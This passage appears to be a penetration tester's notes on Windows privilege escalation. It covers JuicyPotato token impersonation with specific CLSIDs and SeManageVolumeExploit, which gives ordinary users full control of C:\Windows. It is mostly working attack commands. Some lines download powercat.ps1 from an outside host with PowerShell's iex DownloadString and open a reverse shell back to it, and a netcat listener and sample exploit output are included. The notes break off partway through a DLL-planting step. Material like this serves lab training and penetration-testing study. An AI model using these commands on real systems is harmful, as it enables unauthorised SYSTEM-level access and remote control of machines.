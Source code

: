 ```bat

nc -nvlp 4445

## common use 
juicypotato.exe -t * -p c:\temp\1337.exe -l 9001

## powershell down powcat and get shell
jp86.exe -l 1337 -c "{4991d34b-80a1-4291-83b6-3328366b9097}" -p c:\windows\system32\cmd.exe -a "/c powershell -ep bypass iex (New-Object Net.WebClient).DownloadString('http://192.168.119.196/powercat.ps1');powercat -c 192.168.119.196 -p 4445 -e cmd" -t *

## windows 2012 6.3.9600 N/A Build 9600
JuicyPotato.exe -l 1337 -c "{4991d34b-80a1-4291-83b6-3328366b9097}" -p c:\windows\system32\cmd.exe -a "/c powershell -ep bypass iex (New-Object Net.WebClient).DownloadString('http://192.168.119.196/powercat.ps1');powercat -c 192.168.119.196 -p 4444 -e cmd" -t *

## -p,use bat
echo cmd /c c:\windows\tasks\445.exe > run.bat
juicypotato.exe -t * -p run.bat -l 9002 -c {F7FD3FD6-9994-452D-8DA7-9A8FD87AEEF4} 

## if error, COM -> recv failed with error: 10038
## change clsid

# 获取CLID
## getclid, https://github.com/ohpe/juicy-potato/blob/master/CLSID/GetCLSID.ps1
## test, https://github.com/ohpe/juicy-potato/blob/master/Test/test_clsid.bat

New-PSDrive -Name HKCR -PSProvider Registry -Root HKEY_CLASSES_ROOT | Out-Null
$CLSID = Get-ItemProperty HKCR:\clsid\* | select-object AppID,@{N='CLSID'; E={$_.pschildname}} | where-object {$_.appid -ne $null}
foreach($a in $CLSID)
{
Write-Host $a.CLSID
}

powershell -ep bypass -f getclid.ps1
PowerShell.exe -ExecutionPolicy Bypass -File getclid.ps1 > CLSID.list
```

#### SeManageVolumePrivilege
+ SeManageVolumePrivilege, pg-access
+ [SeManageVolumeExploit](https://github.com/CsEnox/SeManageVolumeExploit)
+ [reference](https://twitter.com/0gtweet/status/1303432729854439425)
+ [WerTrigger](https://github.com/sailay1996/WerTrigger)

```bat
# execute SemanageVolumeExploit.exe, Bbuiltin Users group has full permission on the windows folder.
C:\xampp\htdocs\uploads>whoami
access\svc_mssql

C:\xampp\htdocs\uploads>SeManageVolumeExploit.exe
Entries changed: 865
DONE 

C:\xampp\htdocs\uploads>icacls C:/Windows
C:/Windows NT SERVICE\TrustedInstaller:(F)
           NT SERVICE\TrustedInstaller:(CI)(IO)(F)
           NT AUTHORITY\SYSTEM:(M)
           NT AUTHORITY\SYSTEM:(OI)(CI)(IO)(F)
           BUILTIN\Users:(M)
           BUILTIN\Users:(OI)(CI)(IO)(F)

# 1. Copy **phoneinfo.dll** to **C:\Windows\System32**
```